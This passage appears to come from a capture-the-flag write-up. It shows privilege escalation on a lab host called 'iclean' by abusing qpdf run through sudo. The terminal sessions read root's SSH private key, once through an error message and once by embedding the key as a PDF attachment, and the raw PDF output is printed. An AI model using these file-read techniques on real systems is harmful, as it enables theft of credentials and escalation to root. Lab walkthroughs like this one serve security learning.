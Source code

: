 ```
consuela@iclean:/tmp/privesc$ sudo /usr/bin/qpdf --empty - @/root/.ssh/id_rsa

qpdf: unrecognized argument -----BEGIN OPENSSH PRIVATE KEY-----

For help:
  qpdf --help=usage       usage information
  qpdf --help=topic       help on a topic
  qpdf --help=--option    help on an option
  qpdf --help             general help and a topic list
```

```
consuela@iclean:/tmp/privesc$ sudo /usr/bin/qpdf --help=--filename
--filename=name

Specify the filename to be used for the attachment. This is what
is usually displayed to the user and is the name most graphical
PDF viewers will use when saving a file. It defaults to the last
element (basename) of the attached file's filename.
```

https://qpdf.readthedocs.io/en/stable/cli.html#embedded-files-attachments

```
consuela@iclean:/tmp/privesc$ sudo /usr/bin/qpdf --empty - --add-attachment /root/.ssh/id_rsa --
%PDF-1.3
%
1 0 obj
<< /Names << /EmbeddedFiles 2 0 R >> /PageMode /UseAttachments /Pages 3 0 R /Type /Catalog >>
endobj
2 0 obj
<< /Names [ (id_rsa) 4 0 R ] >>
endobj
3 0 obj
<< /Count 0 /Kids [ ] /Type /Pages >>
endobj
4 0 obj
<< /EF << /F 5 0 R /UF 5 0 R >> /F (id_rsa) /Type /Filespec /UF (id_rsa) >>
endobj
5 0 obj
<< /Params << /CheckSum <bb34da3f74ca5fb11f4ccbc393e113bc> /CreationDate (D:20240608140247Z) /ModDate (D:20240608140247Z) /Size 505 >> /Type /EmbeddedFile /Length 377 /Filter /FlateDecode >>
stream
xuQr@)˰ĄC3 8@DY\O*҇W^uNaቷFRs&4Y!6S!U`xHtoOm.6#Eic#y1\2

ҐwN!o}7G(MLbJ1?c9G%9h<@qm%Zު}+yq2[yl⣳
!"-t+i%ءFK@H@AD63wui{z.-?g[>J%w(=>
-endstream                        NH,-[L]ug&?KPAKxR
endobj
xref
0 6
0000000000 65535 f
0000000015 00000 n
0000000124 00000 n
0000000171 00000 n
0000000224 00000 n
0000000315 00000 n
trailer << /Root 1 0 R /Size 6 /ID [<069bfa6b170cfaa6128242af7c311229><069bfa6b170cfaa6128242af7c311229>] >>
startxref
915
%%EOF
```
